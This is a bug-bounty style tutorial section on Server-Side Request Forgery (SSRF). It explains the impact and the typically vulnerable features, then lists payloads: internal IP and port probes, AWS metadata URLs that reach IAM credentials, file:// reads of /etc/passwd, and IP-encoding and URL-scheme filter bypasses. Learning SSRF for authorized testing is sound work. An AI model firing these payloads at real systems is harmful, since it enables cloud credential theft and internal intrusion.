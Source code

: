 5. Server-Side Request Forgery (SSRF)

### What is SSRF?
Attacker can abuse server functionality to read or update internal resources, making requests on behalf of the server.

### Impact:
- Access internal services
- Read local files
- Port scanning internal network
- Cloud metadata access (AWS, GCP, Azure)

### Common Vulnerable Features:
- Image/document processing from URLs
- Webhooks
- URL preview functionality
- API integrations

### Bug Bounty Impact:
- **High to Critical severity**
- **Payout range**: $500-$10,000+

### Basic Payloads:
```
# Internal network scanning:
http://127.0.0.1:80
http://127.0.0.1:22
http://127.0.0.1:3306
http://192.168.1.1
http://10.0.0.1

# Cloud metadata (AWS):
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Local file access:
file:///etc/passwd
file:///etc/hosts
file://C:\Windows\System32\drivers\etc\hosts
```

### Bypass Techniques:
```
# IP encoding:
http://2130706433/  # 127.0.0.1 in decimal
http://0x7f000001/  # 127.0.0.1 in hex
http://127.1/       # Short form

# URL schemes:
gopher://
ftp://
dict://
ldap://
```

---